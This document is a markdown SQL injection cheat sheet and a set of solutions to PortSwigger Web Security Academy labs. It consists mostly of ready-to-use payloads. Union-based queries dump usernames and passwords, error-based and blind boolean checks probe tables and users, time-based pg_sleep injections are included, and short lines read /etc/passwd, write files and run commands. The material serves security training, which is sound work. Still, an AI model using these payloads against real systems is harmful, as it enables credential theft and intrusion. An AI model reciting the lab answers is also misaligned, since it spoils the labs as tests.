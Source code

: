 ## Payloads
```
select id from demo where name='test' and extractvalue(1, concat(0x7c, (select schema_name from information_Schema.schemata limit 1,1) ) )-- -'
```


## Common tools¶

    * Burp Suite: Introduction to Burp Suite

    * Tamper Data (Firefox addon)

    * HackBar (Firefox addon)

    * sqlmap: sqlmap user manual

## Injecting common parameters¶

    user(): current database user
    database(): current database name
    version(): the currently used database version
    @@datadir: database storage data path
    concat(): Union data used to combine two data results. Such as concat(username,0x3a,password)
    group_concat(): Similar to concat(), such as group_concat(DISTINCT+user, 0x3a, password), used to inject multiple pieces of data at once
    concat_ws(): usage is similar
    hex() and unhex(): for hex encoding and decoding
    load_file(): Read the file as text. In Windows, the path is set to \\
    select xxoo into outfile &#39;path&#39;: can write files directly when the permission is high


## Finding the Database Version
**MySQL and MSSQL** 
`',nickName=@@version,email='` <br>
**For Oracle** 
`',nickName=(SELECT banner FROM v$version),email='`<br>
**For SQLite** 
`',nickName=sqlite_version(),email='`

## Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Extra
* `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` 

* `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

* `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
* `2 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4 fRoM information_schema.schemata-- `

### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time

New Learned
--------------
do_system('whoami')
LOAD_FILE('/etc/passwd')

## CheatSheets
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Advanced SQL Injection](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* [CTF-Wiki](https://ctf-wiki.mahaloz.re/web/sqli/)
